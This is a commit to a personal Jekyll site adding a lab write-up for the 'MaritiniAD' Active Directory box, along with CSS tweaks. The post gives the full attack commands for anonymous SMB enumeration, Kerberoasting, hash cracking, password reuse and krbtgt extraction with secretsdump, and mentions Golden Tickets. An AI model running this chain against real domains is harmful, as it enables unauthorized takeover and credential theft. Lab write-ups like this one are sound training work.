

Before and after one commit to halilkirazkaya/halilkirazkaya.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high. Shown: the whole window at 89% size, without its empty margins (221-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
martini-ad

````diff
--- /dev/null
+++ b/_posts/2026-05-15-maritiniad-active-directory-writeup.md
@@ -0,0 +1,229 @@
+---
+layout: post
+title: "MaritiniAD Writeup"
+date: 2026-05-15
+tags: [Active Directory, Writeup, Kerberoasting, Password Reuse, PowerView, Windows]
+excerpt: "Full walkthrough of the DC01 box in the DRY.MARTINI.BARS domain: anonymous SMB enumeration, PowerView recon, Kerberoasting the ATHENA_SVC hash, and elevating to Domain Admin via password reuse."
+---
+
+In this writeup I walk through the **MaritiniAD** box step by step. It presents a basic Windows Active Directory environment and covers classic AD techniques from initial access to full domain compromise.
+
+## Machine Information
+
+| Property | Value |
+|----------|-------|
+| Machine | MaritiniAD |
+| IP | 10.1.99.162 |
+| Hostname | DC01.DRY.MARTINI.BARS |
+| Domain | DRY.MARTINI.BARS |
+| OS | Windows 11 / Server 2025 Build 26100 |
+
+---
+
+## Recon: Nmap Scan
+
+I started with a full-port scan:
+
+```bash
+sudo nmap -p- -vvv --min-rate 5000 -A -sC -oA MaritiniAD 10.1.99.162
+```
+
+Open ports:
+
+| Port | Service | Note |
+|------|---------|------|
+| 53/tcp | DNS | Domain Controller hallmark |
+| 135/tcp | MSRPC | |
+| 139/tcp | NetBIOS-SSN | |
+| 445/tcp | SMB | **Anonymous access enabled** |
+| 3268/tcp | Global Catalog LDAP | |
+| 3269/tcp | Global Catalog LDAP SSL | |
+| 3389/tcp | RDP | SSL cert: `DC01.DRY.MARTINI.BARS` |
+| 49667, 49669, 58099/tcp | Dynamic RPC / Other | |
+
+The port layout immediately screams **Domain Controller**, especially the combination of 53, 445, 3268/3269 and 3389.
+
+---
+
+## SMB Enumeration: Anonymous Login & Shares
+
+One of the most overlooked yet valuable first steps on AD machines is **anonymous SMB enumeration**. I tested null sessions with `netexec`:
+
+```bash
+nxc smb 10.1.99.162 -u '' -p '' --shares
+```
+
+The result was surprising — **anonymous users could list all shares**:
+
+```
+Share           Permissions     Remark
+-----           -----------     ------
+ADMIN$                          Remote Admin
+C$                              Default share
+IPC$                            Remote IPC
+NETLOGON                        Logon server share
+notes
+SYSVOL                          Logon server share
+```
+
+The `notes` share caught my eye. I used the `spider_plus` module to pull its contents:
+
+```bash
+nxc smb 10.1.99.162 -u '' -p '' -M spider_plus -o DOWNLOAD_FLAG=True
+```
+
+Inside I found two critical files:
+
+**notes.txt:**
+```
+- Order more gin for lakeside
+- Look for an engagement ring
+- Check that notes works from Linux Mint
+```
+
+**creds:**
+```
+mprice:<INITIAL_HINT>
+```
+
+The `creds` file gave us `mprice`'s password — or at least a password hint. It wasn't a directly usable credential, but the domain-themed word *<INITIAL_HINT>* was a valuable clue.
+
+---
+
+## Domain Enumeration: BloodHound Fails, PowerView Saves the Day
+
+I tried running BloodHound Python to map the domain, but it errored out. I pivoted to **PowerView** for manual enumeration.
+
+Listing all domain users:
+
+```powershell
+Get-DomainUser | Select-Object name, samaccountname, mail
+```
+
+This returned a small user base:
+
+| samAccountName | Name |
+|----------------|------|
+| ATHENA_SVC | ATHENA_SVC |
+| athena.t0 | athena.t0 |
+| mprice | Martin Price |
+| krbtgt | krbtgt |
+| Guest | Guest |
+| Administrator | Administrator |
+
+I then checked for **Kerberoastable** accounts:
+
+```powershell
+Get-DomainUser -SPN | Select-Object ServicePrincipalName, Name, MemberOf
+```
+
+PowerView dashboard also highlighted the security findings clearly:
+
+![PowerView Dashboard](/assets/images/powerview_dashboard.png)
+
+This flagged **ATHENA_SVC**:
+
+```
+ServicePrincipalName         Name        MemberOf
+---------------------------  ----------  ---------------------------------------------------------------
+HTTP/athena.dry.martini.bar  ATHENA_SVC  CN=Remote Management Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS
+```
+
+The full user list confirmed the small domain footprint:
+
+![PowerView User List](/assets/images/powerview_user_list.png)
+
+I also inspected the group memberships of each user. One result stood out immediately:
+
+```powershell
+Get-DomainUser athena.t0 | Select-Object MemberOf
+```
+
+**athena.t0** was a member of **Domain Admins**! This was a critical finding that shaped the rest of the attack path.
+
+![athena.t0 Domain Admin Membership](/assets/images/athena.t0_account.png)
+
+---
+
+## Kerberoasting ATHENA_SVC
+
+With a clear target identified, I used `GetUserSPNs.py` to request the service ticket for the SPN-linked account:
+
+```bash
+GetUserSPNs.py DRY.MARTINI.BARS/mprice:'<INITIAL_HINT>' -dc-ip 10.1.99.162 -request -outputfile athena_hash.txt
+```
+
+> Note: The `mprice` credential was only used to bind to the domain; the actual goal was to pull the SPN hash.
+
+I cracked the captured TGS hash with **John the Ripper**:
+
+```bash
+john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt athena_hash.txt
+```
+
+It cracked in seconds:
+
+```
+<CRACKED_PASSWORD>    (?)
+```
+
+---
+
+## Password Reuse to Domain Admin
+
+After recovering the password, I tested it against **ATHENA_SVC**, but more importantly I remembered that **athena.t0** was a **Domain Admin**. In real-world engagements, password reuse between service accounts and privileged users is extremely common.
+
+I sprayed the cracked password against `athena.t0`:
+
+```bash
+netexec ldap 10.1.99.162 -u 'athena.t0' -p '<CRACKED_PASSWORD>' -d DRY.MARTINI.BARS
+```
+
+Bingo:
+
+```
+LDAP        10.1.99.162     389    DC01    [+] DRY.MARTINI.BARS\athena.t0:<CRACKED_PASSWORD> (Pwn3d!)
+```
+
+The same password worked for `athena.t0`. I now had **Domain Admin** privileges.
+
+---
+
+## Extracting SAM and LSA Secrets
+
+With Domain Admin rights, the next step was to extract SAM and LSA secrets from the Domain Controller. I used secretsdump.py to target the **krbtgt** account specifically:
+
+```bash
+secretsdump.py 'DRY.MARTINI.BARS/athena.t0:<CRACKED_PASSWORD>'@10.1.99.162 -just-dc-user krbtgt
+```
+
+Output:
+
+```
+krbtgt:502:<LM_HASH>:<NTLM_HASH>:::
+[*] Kerberos keys grabbed
+krbtgt:aes256-cts-hmac-sha1-96:<AES256_KEY>
+krbtgt:aes128-cts-hmac-sha1-96:<AES128_KEY>
+krbtgt:0x17:<NTLM_HASH>
+```
+
+Obtaining the **KRBTGT** hash is the "game over" moment in an AD pentest. With this hash, I can forge **Golden Tickets** and authenticate as any user in the domain, achieving persistent and total compromise.
+
+---
+
+## Summary & Key Takeaways
+
+This machine successfully simulated several real-world AD weaknesses often seen in production environments:
+
+| Step | Vulnerability / Technique | Result |
+|------|---------------------------|--------|
+| SMB null session | Misconfiguration | Share enumeration & file access |
+| `notes` & `creds` | Sensitive Data Exposure | Credential / hint recovered |
+| PowerView recon | Domain Enumeration | Identified Kerberoastable target & Domain Admin user |
+| Kerberoasting | Weak SPN Password | `ATHENA_SVC` password cracked |
+| Password Reuse | Credential Reuse | `athena.t0` (Domain Admin) compromised |
+| secretsdump (SAM/LSA) | Full Domain Compromise | KRBTGT hash extracted |
+
+What started as anonymous SMB access to a couple of files escalated through a classic chain into full domain control. This writeup once again highlights how the smallest misconfiguration in AD security can lead to catastrophic consequences.
+
+Good luck and happy hacking!
--- a/assets/css/style.css
+++ b/assets/css/style.css
@@ -448,6 +448,40 @@
     margin: 40px 0;
 }
 
+.post-content table {
+    display: block;
+    width: 100%;
+    overflow-x: auto;
+    border-collapse: collapse;
+    margin: 24px 0;
+    font-size: 0.9rem;
+    white-space: nowrap;
+}
+
+.post-content th,
+.post-content td {
+    padding: 10px 14px;
+    text-align: left;
+    border-bottom: 1px solid rgba(255, 255, 255, 0.06);
+}
+
+.post-content th {
+    color: var(--accent);
+    font-weight: 600;
+    font-size: 0.85rem;
+    text-transform: uppercase;
+    letter-spacing: 0.5px;
+}
+
+.post-content img {
+    display: block;
+    max-width: 100%;
+    height: auto;
+    margin: 24px 0;
+    border-radius: var(--radius-sm);
+    border: 1px solid var(--border-card);
+}
+
 .post-content a {
     color: var(--accent);
     text-decoration: underline;
@@ -654,8 +688,8 @@
 
 /* --- Animations --- */
 .fade-in {
-    opacity: 0;
-    transform: translateY(16px);
+    opacity: 1;
+    transform: translateY(0);
     transition: opacity 0.6s ease, transform 0.6s ease;
 }
 
````
Also changed, not shown: assets/images/athena.t0_account.png (added), assets/images/powerview_dashboard.png (added), assets/images/powerview_user_list.png (added).
